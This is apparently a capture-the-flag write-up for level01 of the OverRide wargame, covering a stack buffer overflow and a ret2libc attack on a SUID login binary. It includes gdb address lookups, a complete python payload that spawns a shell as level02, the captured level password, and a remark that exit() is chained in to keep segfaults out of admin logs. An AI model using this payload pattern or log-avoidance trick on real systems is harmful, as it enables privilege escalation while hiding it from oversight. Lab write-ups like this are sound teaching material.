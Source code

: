 # Level 1

## Vulnerability



## Context

We find a binary with owner ```level01``` and SUID.
```
level01@OverRide:~$ ls -l
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
```

When run, we see it prompts for a username (and probably later, a password).
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: POTUS
verifying username....

nope, incorrect username...
```

## Solution

### main() overview
Let's take a deeper look at the program.
See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level01/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` prompts for a username and password, reading from stdin with ```fgets()```, and then calling ```verify_user_name()``` and ```verify_user_pass()```.

In each case, user input for username and password is compared with a hard value in memory and jumps to exit if not equal. 

In ```verify_user_name()```, we see that the username must be "dat_wil".

In ```verify_user_pass()```, we see that the password must be "admin".

However, when we try these values the program still quits. 
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```

### Exploit

First off, we can identify a vulnerability with ```fgets()``` to trigger a buffer overflow. 

Using our trusty [pattern generator and EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we crash the program and find we can overwrite the EIP at offset 80.
```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

In the previous project, [Rainfall](https://github.com/anyashuka/Rainfall), our strategy was to copy shellcode to the stack and jump to it (a classic stack-based buffer overflow). 

We've found a more elegant solution to use here: a ret2libc ("return-to-libc") attack, which will overwrite the EIP return address with a particular libc function address directly. 

In this case, we''re going to overwrite the EIP with the address of ```system```, "/bin/sh", and ```exit()```.
Let's find those addresses. 
```
(gdb) b *main
Breakpoint 1 at 0x80484d0

(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()

(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:
- ```system()``` is at 0xf7e6aed0
- ```exit()``` is at 0xf7e5eb70
- "/bin/sh" is at 0xf7f897ec
Note: we will flip these for little endian!

Why bother add the ```exit()```? Because if we don't, then the shell will segfault upon exit – which will be recorded in the dmesg logs and visible to any system admin who looks... So basically, to erase our footsteps! 

### Build exploit

Let's build our attack payload:

[ 80 x "A" ] [ address of system ] [ address of exit ] [ address of "/bin/sh" ]

```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
``` 

## Recreate Exploited Binary

As user ```level02```, in ```/tmp```, create and compile ```level01_source.c```
```
level02@OverRide:/tmp$ gcc -z execstack -fno-stack-protector level01_source.c -o level01_source
```

Edit permissions including suid, then move the binary to home directory.
```
level02@OverRide:/tmp$ chmod u+s level01_source; chmod +wx ~; mv level01_source ~
```

Exit back to user ```level01```, then launch the source with the ret2libc exploit (with new addresses for system, /bin/sh, and exit).
system 0x 7f ff f7 a6 12 10
       \x10\x12\xa6\xf7\xff\x7f
exit 0x 7f ff f7 a5 75 80
       \x80\x75\xa5\xf7\xff\x7f
/bin/sh 0x 7f ff f7 b9 4d 0f
       \x0f\x4d\xb9\xf7\xff\x7f
```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\x10\x12\xa6\xf7\xff\x7f" + "\x80\x75\xa5\xf7\xff\x7f" + "\x0f\x4d\xb9\xf7\xff\x7f"' ; cat -) | ./level01_source
...
0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 does not have access!
```
